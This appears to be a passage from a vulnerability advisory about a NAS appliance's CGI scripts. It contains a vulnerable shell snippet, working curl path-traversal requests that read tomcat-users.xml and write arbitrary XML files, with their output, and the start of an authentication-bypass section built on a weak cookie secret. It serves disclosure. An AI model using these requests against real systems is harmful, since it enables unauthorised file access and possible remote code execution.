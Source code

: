 ```sh
temp=$(echo $QUERY_STRING | cut -f2 -d '&')
userName=$(echo $temp | cut -f2 -d '=')

path=$dir/$userName.xml

if [ "$level" = "read" ]; then
    read_file=`cat $path`
elif [ "$level" = "write" ]; then
    echo $data > $path
fi
```

This allows an unauthenticated remote attacker to read any xml file on the file system, and create xml files as user ```nasadmin```. This could potentially lead to an unauthenticated remote code execution.

Example read:
```shell
$ curl -k -s 'https://xxx/cgi-bin/link_launch_user_details?level=read&user=../../http/webui/tools/tomcat/conf/tomcat-users&data=test'
<HTML>
file=<?xml version='1.0' encoding='utf-8'?>
<tomcat-users>
</tomcat-users>
</HTML>
```

Example write:
```shell
$ curl -k -s 'https://xxx/cgi-bin/link_launch_user_details?level=write&user=../../../tmp/test&data=test_test_test_test'
<HTML>
<BODY>
        Done!!!
</BODY>
</HTML>
```

Results in:
```
[root@xxx nas]# ll /tmp/test.xml
-rw-r--r-- 1 nasadmin nasadmin 20 Sep 22 13:22 /tmp/test.xml
[root@xxx nas]# cat /tmp/test.xml
test_test_test_test
```

CVE-2021-36289: Critical: Authentication bypass
-------------------------------
A combination of vulnerabilities lets remote unauthenticated attackers authenticate to the webserver as any user by forging a cookie.

The secret value for constructing cookies is a 5 digits number, generated during install and never rotated:
```shell
hexdump -d /dev/urandom | head -1 | awk '{ print $NF }' > $NAS_DB/http/conf/secret.txt
```
